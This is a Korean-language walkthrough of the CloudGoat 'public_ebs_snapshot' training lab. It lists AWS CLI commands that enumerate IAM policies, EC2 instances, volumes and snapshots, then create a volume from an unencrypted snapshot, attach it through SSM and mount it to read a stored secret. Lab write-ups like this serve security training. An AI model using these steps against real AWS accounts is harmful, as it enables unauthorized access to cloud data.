 ## 시나리오 리소스  

- 1 IAM Users
- 2 EC2 instances
- 1 EBS & Snapshot


## 실행 명령어  
`$ ./cloudgoat.py create public_ebs_snapshot`  

## 목표  

이 시나리오의 목표는 암호화되지 않은 공개 EBS 스냅샷을 사용하여 비밀값을 읽어내는 것입니다. 시크릿은 EBS의 특정 디렉터리에 저장되며, 그 값은 다음과 같은 형식(cg-secret-XXXXXX-XXXXXX)을 가집니다.  

## 개요

IAM 사용자 Block으로 시작하여 공격자는 먼저 EC2 인스턴스를 탐색하고 특정 인스턴스에 연결된 EBS볼륨의 스냅샷이 암호화 되지 않은 것을 발견합니다. 그런 다음 공격자는 주어진 SSH키를 활용하여 다른 EC2에 접근후 스냅샷을 사용하여 EBS에 저장되어있던 비밀 문자열을 획득 할 수 있습니다. 



***

### 1. 할당된 권한 확인

진행중인 IAM에게 할당된 권한을 확인해 주겠습니다.
`aws iam get-policy-version --policy-arn <Policy-Arn> --version-id v1 --profile <Profile_Name>`


aws iam get-policy-version --policy-arn arn:aws:iam::856460250113:policy/EC2CreatorPolicy --version-id v1 --profile cloudgoat

1. 인스턴스 id확인
aws ec2 describe-instances --profile block

2. 연결된 볼륨 확인
aws ec2 describe-volumes --filters "Name=attachment.instance-id,Values=<Your_EC2_instance_ID>" --profile block

3. 볼륨의 스냅샷 확인
aws ec2 describe-snapshots --filters "Name=volume-id,Values=<Volume-ID>" --profile block

--영상---
4. 스냅샷으로 볼륨 생성
aws ec2 create-volume --snapshot-id snap-0ed9a369c7acf1de9 --availability-zone us-east-1a --volume-type gp2 --size 1 --profile block


5. ssm으로 접속 가능한 ec2인스턴스를 확인
aws ssm describe-instance-information --profile block
*이거 권한 추가해줘야함 block에다가 describe할 수 있는 권한


6. 해당 인스턴스에 스냅샷으로 생성한 볼륨 연결
aws ec2 attach-volume --volume-id vol-0173b2eaff852024a --instance-id i-0b28d2c26cd360ff7 --device /dev/xvdf --profile block

7. 인스턴스에 ssm으로 접속
aws ssm start-session --target i-0b28d2c26cd360ff7 --profile block


8. 인스턴스에서 ebs볼륨 마운트 디렉토리 및 마운트 포인트 생성
sudo mkdir /mnt/mydata

9. 마운트
sudo mount /dev/xvdf /mnt/mydata

10. ebs데이터 확인
cd /mnt/mydata